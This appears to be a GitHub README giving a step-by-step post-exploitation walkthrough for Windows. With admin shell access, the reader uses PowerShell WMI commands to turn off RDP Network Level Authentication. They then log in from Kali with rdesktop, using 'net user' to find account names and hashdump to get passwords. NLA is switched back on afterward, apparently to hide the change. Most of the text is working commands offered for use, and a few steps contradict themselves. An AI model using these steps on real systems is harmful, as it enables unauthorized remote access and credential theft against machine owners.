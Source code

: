 ## Disclosures of Remote Procedure Call
-DO THIS AT YOUR OWN RISK :) 

1. Shell Needed Requires Admin Privilege.
2. Powershell MUST be Used !
3. You will need the password of the Desktop you are connecting to.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:
      ![alt text]

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
  Codes :-
  
    `$ComputerName = " NAME SEEN IN SYSINFO "`
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    If "1" is returned, it means NLA is on.
    If "0" is returned, it means NLA is off.
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      Image is seen below:
      ![alt text]
  
    Now It will be turned off.
    You can use Number 4 command to check if it worked. 
  
      Image is seen below:
      ![alt text]
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    You can use the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:
    ![alt text]
    
    If you do not know the Username, run the command `net user` in the Powershell
    
    If you do not know the Username's Password, hashdump will be required. 
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Now It will be turned off.
    You can use Number 4 command to check if it worked.
  
    Image is seen below:
    ![alt text]

  
